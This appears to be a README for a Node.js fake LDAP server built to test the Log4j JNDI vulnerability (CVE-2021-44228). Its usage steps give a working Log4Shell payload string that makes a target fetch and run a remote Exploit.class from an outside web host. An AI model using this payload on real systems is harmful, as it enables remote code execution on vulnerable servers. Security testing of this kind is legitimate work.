 # Lightweight fake ldap server for jndi lookups
This lightweight fake ldap server was initially made to test the [log4j vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).
You can run this script to create a very lightweight fake LDAP server that will only respond with a jndi lookup payload, based on the received URL. 

## Usage
- Host a java class on the web with the name Exploit.class, in this example http://example.com/Exploit.class
- `node fakeldap.js`
- Perform jndi ldap lookup:  
`${jndi:ldap://localhost:389/http://example.com/}` - this example will load the java class from `http://example.com/Exploit.class` 
